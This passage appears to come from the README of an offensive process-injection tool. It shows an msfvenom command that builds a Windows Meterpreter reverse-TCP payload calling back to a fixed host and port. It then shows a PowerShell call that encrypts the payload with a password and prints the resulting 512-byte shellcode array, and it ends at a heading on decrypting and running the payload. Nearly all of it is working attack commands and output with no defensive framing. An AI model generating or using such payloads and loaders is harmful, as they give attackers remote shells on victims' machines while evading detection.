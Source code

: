 ## 3. Create sample payload

Just creating a sample payload to demonstrate.
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lport=6666 lhost=192.168.252.5 -f raw -o msftest.bin
```

## 4. Encrypt sample payload file

Encrypt the generated payload and store with a "_enc" suffix, using a given password.
Usage: ex_prog(string password, bool Encrypt, bool Decrypt, string url = "", string localBinPath = "", string outFile = "", string rP = "")

```
PS > [Rem_proc_inj.execute_program]::ex_prog("SUPERSECRETPASSWORD",$true,$false,"","x:\payloads\msftest.bin","x:\payloads\msftest.bin","")
byte[] sc = new byte[512] { 0x6e, 0x95, 0x8d, 0x24, 0x92, 0xb8, 0x4e, 0x08, 0xf3, 0x24, 0x0c, 0xcd, 0xcc, 0xee, 0x19, 0x62, 0x54, 0x13, 0xe1, 0x2e, 0xf9, 0xd4, 0xec, 0x2d, 0x5d, 0xd6, 0x31, 0x6e, 0xc6, 0xc2, 0x22, 0xd9, 0x09, 0x6a, 0x81, 0x55, 0xd8, 0xdb, 0x14, 0x65, 0x90, 0x71, 0xdb, 0xcc, 0xe0, 0x86, 0x0e, 0x0e, 0xaa, 0xaa, 0xb3, 0xa9, 0x5c, 0xf4, 0x3b, 0x1f, 0x50, 0x6d, 0x01, 0x1d, 0xac, 0xe4, 0x46, 0x0d, 0x22, 0x80, 0x86, 0x2d, 0x95, 0x64, 0x76, 0x6b, 0x60, 0x48, 0x7f, 0x4e, 0x8d, 0xa3, 0x24, 0xc5, 0x81, 0x82, 0x5b, 0x6b, 0xb7, 0x0b, 0x1d, 0x15, 0x4f, 0x8c, 0xc3, 0x0c, 0x8d, 0xc7, 0x59, 0x9f, 0xfc, 0x09, 0x9e, 0x84, 0xb4, 0xa4, 0x72, 0xad, 0xf9, 0x89, 0x25, 0xb0, 0x10, 0xda, 0x3a, 0x27, 0x44, 0x0c, 0x96, 0x53, 0x55, 0xbd, 0x8c, 0x6b, 0x94, 0x82, 0x37, 0x7a, 0x3f, 0x4e, 0x04, 0x53, 0xfe, 0x27, 0x0e, 0x77, 0x30, 0x28, 0xdd, 0x67, 0x94, 0x09, 0x6d, 0x3e, 0x4a, 0x51, 0x87, 0x97, 0x32, 0x0c, 0x86, 0x88, 0xe5, 0x42, 0xaf, 0x03, 0xfa, 0x4a, 0x7b, 0x56, 0xa3, 0xa4, 0xb6, 0x9c, 0x4f, 0x8f, 0xb5, 0xe7, 0xa6, 0x20, 0x1c, 0x36, 0xca, 0x05, 0x4a, 0x8d, 0x28, 0x03, 0x49, 0x39, 0x06, 0x9b, 0xd9, 0xf8, 0x14, 0xad, 0xcc, 0x19, 0x84, 0xcc, 0x6e, 0xed, 0x51, 0x49, 0x48, 0xd1, 0x65, 0x60, 0x91, 0x42, 0xfa, 0x0f, 0x0f, 0x70, 0xca, 0x62, 0x1f, 0xd0, 0x29, 0xe1, 0x44, 0x41, 0x7c, 0xe4, 0x36, 0x84, 0xb4, 0xba, 0x39, 0xbd, 0x19, 0xbb, 0xf0, 0xcb, 0xfb, 0xf3, 0x24, 0x97, 0xf0, 0xa1, 0xf2, 0xc8, 0x60, 0x21, 0x79, 0x0e, 0xf4, 0x34, 0x54, 0xa1, 0x5e, 0xb2, 0x85, 0xdc, 0x92, 0xb1, 0xd8, 0xc9, 0x1d, 0xd1, 0x49, 0x8b, 0x3b, 0x05, 0xc3, 0x2f, 0x27, 0xa0, 0xc8, 0xeb, 0x9a, 0x01, 0x3f, 0xda, 0x13, 0x53, 0x85, 0xa4, 0x3c, 0xa2, 0xa6, 0x63, 0xa5, 0x43, 0x43, 0x1b, 0x8f, 0x55, 0xdc, 0x52, 0xa3, 0x77, 0x1c, 0x43, 0x37, 0x5c, 0xea, 0xf5, 0x9b, 0xe8, 0x1f, 0x91, 0x7f, 0xc9, 0x84, 0xaf, 0x1b, 0xd6, 0x20, 0x78, 0xe1, 0x85, 0x22, 0x11, 0x6d, 0xf7, 0x56, 0xc2, 0x6e, 0xf9, 0x77, 0xec, 0x04, 0x69, 0x1c, 0xf7, 0xc7, 0x30, 0xd9, 0x6a, 0x69, 0xaa, 0x20, 0xa0, 0x6d, 0x80, 0x8e, 0xf7, 0x2f, 0x08, 0x90, 0x8a, 0xf0, 0xb9, 0x2a, 0xb2, 0x91, 0x67, 0x8c, 0xdc, 0xce, 0x32, 0x64, 0x0f, 0x8d, 0x13, 0x1f, 0x2e, 0xa7, 0x12, 0xf0, 0x95, 0xa0, 0x66, 0x43, 0xae, 0x33, 0xb4, 0x9c, 0x5c, 0xcd, 0xef, 0xaa, 0xf1, 0x0d, 0x88, 0x9f, 0xdf, 0xd0, 0xb4, 0x4b, 0xc6, 0x09, 0x39, 0x41, 0xc7, 0xf8, 0x67, 0x99, 0xfb, 0x1a, 0xb6, 0xb9, 0x8e, 0x52, 0x3a, 0xd7, 0xd2, 0xca, 0xe9, 0x58, 0x98, 0x05, 0x1f, 0xc4, 0x0a, 0xbf, 0x13, 0x5b, 0x26, 0x4a, 0xab, 0x51, 0xbb, 0x0b, 0x28, 0x3d, 0xc7, 0x93, 0x5b, 0x33, 0x5a, 0x67, 0x5d, 0xcc, 0xf5, 0xe9, 0x43, 0x80, 0x36, 0x7d, 0x23, 0x6b, 0x26, 0x35, 0xde, 0x0e, 0xff, 0xd3, 0xc7, 0x3f, 0x45, 0xbc, 0x14, 0xe2, 0xdc, 0x89, 0x2e, 0xa6, 0xc4, 0xa5, 0x44, 0xf7, 0xc2, 0x90, 0x3a, 0x6e, 0x4b, 0x53, 0xf2, 0xe2, 0xb4, 0x09, 0xac, 0x77, 0xbc, 0xed, 0xf7, 0xe3, 0xc3, 0xd1, 0x77, 0x9e, 0x22, 0x1a, 0xfb, 0x0b, 0x96, 0x4b, 0x40, 0x74, 0x7e, 0x76, 0x0a, 0x77, 0x78, 0xc2, 0x35, 0x63, 0x32, 0x3f, 0xa1, 0xe3, 0x4b, 0x2d, 0x69, 0xda, 0x87, 0x9c, 0x76, 0x91, 0x3c, 0x52, 0xc4, 0x4f, 0xaf, 0x8d, 0xd0, 0xd6, 0xde, 0x36, 0xac, 0x8c, 0x04, 0x63, 0x26, 0x3d, 0xa8, 0x07, 0x6a, 0xa8, 0xb9, 0xe6, 0x6f, 0x7e, 0xfd };
```

## 4. Decrypt and run sample payload file

